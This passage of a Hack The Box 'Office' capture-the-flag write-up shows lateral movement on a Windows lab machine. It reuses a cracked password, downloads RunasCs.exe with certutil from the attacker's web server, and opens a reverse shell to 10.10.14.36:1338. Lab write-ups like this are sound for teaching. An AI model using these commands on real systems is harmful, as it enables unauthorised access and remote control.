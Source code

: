 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-26.png)

Earlier, we already have cracked the password for *tstark*: **playboy69**

We should be able to run commands as **tstark** as long we have the correct password using **RunasCs.exe**.

Let's start up Python web server on the directory where we have **RunasCs.exe**: 

`python3 -m http.server`

We can use the command `certutil.exe -urlcache -split -f http://10.10.14.36:8000/RunasCs.exe` to download **RunasCs.exe**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-30.png)

> HTB-Solarlab also includes utilizing RunasCs.exe. You can find my writeup [here](https://jadu101.github.io/Hackthebox%F0%9F%93%A6/Windows%F0%9F%93%98/HTB-Solarlab#runascsexe)

We can verify RunasCs working through by sending `whoami` command:

`.\RunasCs.exe tstark playboy69 "whoami"`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-31.png)


Now that we know that we can execute commands as **tstark**, let's spawn a reverse shell:

`.\RunasCs.exe tstark playboy69 cmd.exe -r 10.10.14.36:1338`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-32.png)

